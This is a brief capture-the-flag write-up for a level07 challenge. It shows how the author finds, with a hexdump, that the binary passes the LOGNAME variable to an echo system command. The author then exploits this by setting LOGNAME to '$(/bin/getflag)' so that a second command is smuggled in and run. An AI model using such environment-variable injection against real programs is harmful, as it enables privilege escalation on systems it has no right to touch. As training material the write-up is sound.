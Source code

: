 ## We run ./level07

### It display : level07

## We check env variables and we remarks that LOGNAME=level07
## We want to see if LOGNAME is used into binary

### hexdump -C level07 | grep LOGNAME -A 2 -B 2
### 00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|

## LOGNAME is just next to echo command, a system command is launch from binary file.
## So we change LOGNAME to try to run getflag by evaluating /bin/getflag

### export LOGNAME='$(/bin/getflag)' && ./level07
##or LOGNAME=\`getflag\`

